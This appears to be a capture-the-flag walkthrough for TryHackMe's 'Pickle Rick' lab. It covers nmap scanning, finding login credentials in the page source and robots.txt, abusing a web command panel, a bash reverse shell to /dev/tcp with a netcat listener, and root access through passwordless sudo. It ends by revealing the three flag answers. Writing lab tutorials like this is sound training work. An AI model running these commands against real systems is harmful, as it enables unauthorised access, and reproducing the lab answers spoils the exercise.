

**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by the *Rick and Morty* series. This walkthrough guides you through using a custom portal to find the three secret ingredients to reverse Rick's pickle transformation.

# 1. Initial Reconnaissance and Scanning

Gather information about the target machine.

### Nmap Scan
Run an Nmap scan to identify open ports and services:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>
```

- `-sC`: Runs default scripts for vulnerability checks.
- `-sV`: Detects service versions.
The scan reveals port 80 (HTTP) is open.


# 2. Web Enumeration

Explore the web interface.

### Access the Portal
Visit `http://<Target_IP>` to access the *Rick and Morty*-themed portal. Check the page source for clues. A note reveals the username: **RickRul3s**.

### Check robots.txt
Retrieve hidden files:

```console
curl http://<Target_IP>/robots.txt
```
we found *Wubbalubbadubdub* it's the password
### Discovery

I used Dirsearch 


### login

We need to visit `http://<Target_IP>/login.php`


After We logged in   

# 3. Accessing the Command Panel

Navigate to `http://<Target_IP>/portal` to access the command panel.


### Execute Commands
Use the command panel to list files:

```console
ls -la
```

This reveals files like `Sup3rS3cretPickl3Ingred.txt`, `clue.txt`, etc.
### failing cat

The command is disabled


we can try less or tac
```
less Sup3rS3cretPickl3Ingred.txt
```


we got the first flag *##. ####### ####*
# 4. Gaining a Reverse Shell

### Execute Reverse Shell
In the command panel, enter:

```console
bash -i >& /dev/tcp/<Your IP>/4444 0>&1
```


Replace `10.10.10.10` with your IP. After execution, you should see a connection in your listener.

### Set Up Listener
On your machine, start a Netcat listener:

```console
nc -lvnp 4444
```


# 5. Privilege Escalation

With the shell, escalate privileges.

### Navigate and List Files
From the shell:

```console
cd /home
ls
cd rick
ls
less second\ ingredients
```

The second ingredient is **# ##### ####**.

### Escalate to Root
Check sudo privileges:

```console
sudo -l
```

If `(ALL) NOPASSWD: ALL` is allowed, run:

```console
sudo su
cd /root
ls
less 3rd.txt
```

The third ingredient is **###### #####**.


# 6. Capture the Ingredients

- **First Ingredient**: **##. ####### ####** (from `Sup3rS3cretPickl3Ingred.txt`).
- **Second Ingredient**: **# ##### ####** (from `/home/rick/second ingredients`).
- **Third Ingredient**: **###### #####** (from `/root/3rd.txt`).

# 7. Final Thoughts

You’ve successfully found all three ingredients: **mr_meeseek_hair**, **jerry_tear**, and **fleebs_juice** to help Rick. This challenge leverages a custom portal and basic Linux skills. Great job, Morty!